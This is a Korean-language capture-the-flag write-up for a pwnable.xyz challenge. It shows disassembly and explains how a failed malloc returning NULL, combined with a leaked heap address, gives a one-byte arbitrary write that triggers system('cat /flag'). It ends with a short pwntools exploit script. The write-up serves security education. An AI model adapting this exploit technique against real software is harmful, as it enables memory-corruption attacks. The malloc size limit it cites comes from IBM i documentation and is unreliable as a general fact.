 ```
.text:000000000000099D                 mov     rdi, [rsp+28h+size] ; size
.text:00000000000009A1                 call    malloc
.text:00000000000009A6                 lea     rsi, aEnterYourMessa ; "Enter your message: "
.text:00000000000009AD                 mov     rbp, rax
.text:00000000000009B0                 mov     edi, 1
.text:00000000000009B5                 xor     eax, eax
.text:00000000000009B7                 call    __printf_chk
.text:00000000000009BC                 mov     rdx, [rsp+28h+size] ; nbytes
.text:00000000000009C0                 xor     edi, edi        ; fd
.text:00000000000009C2                 mov     rsi, rbp        ; buf
.text:00000000000009C5                 call    read
.text:00000000000009CA                 mov     rdx, [rsp+28h+size] ; n
.text:00000000000009CE                 mov     rsi, rbp        ; buf
.text:00000000000009D1                 mov     edi, 1          ; fd
.text:00000000000009D6                 mov     byte ptr [rbp+rdx-1], 0
.text:00000000000009DB                 call    write
.text:00000000000009E0                 cmp     qword ptr [rbx], 0
.text:00000000000009E4                 jnz     short loc_9F2
.text:00000000000009E6                 lea     rdi, command    ; "cat /flag"
.text:00000000000009ED                 call    system
```
주목해야할 점은 바로 이 부분이다. 
```
.text:00000000000009D6                 mov     byte ptr [rbp+rdx-1], 0
```
rbp+rdx-1주소에 위치한 메모리값에 0을 할당해준다.
여기서 rbp는 v4를 의미한다. v4는 위에서 설명했지만, 사용자로부터 정수 값을 입력받아서 그 값만큼 malloc() 함수로  heap 영역을 할당한다. 그리고 그 영역을 v4가 참조하고 있다. 그리고 rdx는 v5를 의미한다. v5는 위에서 설명했지만, 사용자로부터 입력 받은 정수 값(즉, v4가 참조하고 있는 메모리의 크기)이 v5에 할당된다. 

그 다음 단계로 넘어가기 위해서 malloc() 함수에 대해서 이해해야만 했다. 이 [사이트](https://www.ibm.com/docs/en/i/7.1?topic=functions-malloc-reserve-storage-block)에서 malloc에 대해 자세하게 설명을 해주었다. 사이트 내용에서 이 문제를 풀기 위한 지식들을 정리하자면 다음과 같다.
1. malloc()의 반환 값은 할당한 메모리 영역에 대한 포인터이며, 만약 heap영역 공간이 충분하지 않거나, 크기가 0으로지정된 경우 NULL를 반환한다.
2. malloc()을 통해서 heap영역에 최대로 할당할 수 있는 메모리 양은 16711568 byte이다. 

즉, 소스 코드 _isoc99_scanf("%lu", size); 에서 16711568보다 큰 값을 입력하여, v4가 참조하는 값을 NULL로 바꾸고, v5는 입력했던 값(16711568보다 큰 값을 입력했던...)이 할당이 될 것이다.

그리고, NULL(v4참조하는 heap영역) + v5는 입력했던 값(16711568보다 큰 값을 입력했던...) -1 연산을 진행하고, 그 결과값이 특정한 메모리 주소를 나타내고, 그 메모리 주소에 들어있는 값에 0을 할당한다.

이 문제를 풀기 위해서 포인터 변수 v3가 참조하고 있는 메모리영역의 값이 0이 되어야 한다. v3는 위에서 설명했지만, malloc() 함수로 0x40000 byte만큼 heap영역에 할당되어 있고, 친철하게도 v3가 참조하는 heap 영역의 첫번째 주소값을 알려준다(  _printf_chk(1LL, "Leak: %p\n", v3);) 이 값을 소스 코드 _isoc99_scanf("%lu", size); 부분에

v3가 참조하는 메모리 영역의 주소값 + 1

을 하는 것이다.

지금까지 설명한 내용을 토대로 exploit code를 작성하면 다음과 같다.
### exploit code
``` python
from pwn import*

p = remote("svc.pwnable.xyz",30000)
p.recvuntil("Leak: ")
leak_value = p.recv(14)
leak_value = int(leak_value,16)+1

p.recvuntil("Length of your message: ")
p.sendline(str(leak_value))

p.recvuntil("Enter your message: ")
p.sendline("test")

p.interactive()
```
